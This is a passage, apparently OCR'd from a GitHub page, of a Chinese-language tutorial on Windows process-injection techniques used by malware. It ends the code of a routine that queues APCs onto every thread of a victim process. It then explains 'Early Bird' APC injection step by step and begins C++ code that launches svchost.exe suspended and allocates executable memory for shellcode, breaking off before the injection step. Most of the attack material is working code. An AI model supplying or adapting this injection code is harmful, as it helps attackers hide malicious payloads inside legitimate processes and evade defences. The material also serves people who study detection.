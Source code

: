 ```c++
        } while (Thread32Next(snapshot, &threadEntry));
    }

    for (DWORD threadId : threadIds)
    {
        HANDLE threadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);
        QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
        Sleep(1000 * 2);
    }

    // 释放资源
    CloseHandle(victimProcess);
    CloseHandle(snapshot);

    return 0;
}

```



## Early Bird APC注入

"Early Bird" 是一种基于异步过程调用（APC）的注入技术，用于将代码注入到目标进程中执行。APC 是一种用于在目标线程上异步执行用户定义的代码的机制。"Early Bird" 的目标是在目标进程的线程启动前注入代码，实现更早的代码执行。

以下是 "Early Bird" APC 注入技术的基本流程：

1. **获取目标进程：**
   - 使用 `OpenProcess` 打开目标进程，获取进程句柄。
2. **分配内存：**
   - 使用 `VirtualAllocEx` 在目标进程的虚拟地址空间中分配一块内存，用于存储注入的代码。
3. **写入代码：**
   - 使用 `WriteProcessMemory` 将要注入的代码写入到目标进程的分配的内存中。
4. **获取目标线程：**
   - 使用工具函数（例如 `CreateToolhelp32Snapshot` 和 `Thread32First`）获取目标进程的线程列表。
5. **创建挂起的远程线程：**
   - 使用 `CreateRemoteThread` 创建一个远程线程，但是此时线程处于挂起状态（`CREATE_SUSPENDED` 标志）。
6. **将APC插入目标线程：**
   - 使用 `QueueUserAPC` 将异步过程调用（APC）插入到目标线程中。APC 的入口点即为目标代码的起始地址。
7. **恢复目标线程执行：**
   - 使用 `ResumeThread` 恢复目标线程的执行，使其开始执行注入的代码。

#### 实现代码

```c++
#include <windows.h>
#include <tchar.h>

int main() {
    // 1. 定义shellcode
    UINT shellcodeSize = 0;
    unsigned char* shellcode = "";

    // 2. 创建挂起的远程线程
    STARTUPINFOA si = { 0 };
    PROCESS_INFORMATION pi = { 0 };
    CreateProcessA("C:\\Windows\\System32\\svchost.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
    HANDLE victimProcess = pi.hProcess;
    HANDLE threadHandle = pi.hThread;
    LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // 3. 将APC插入目标线程并执行
```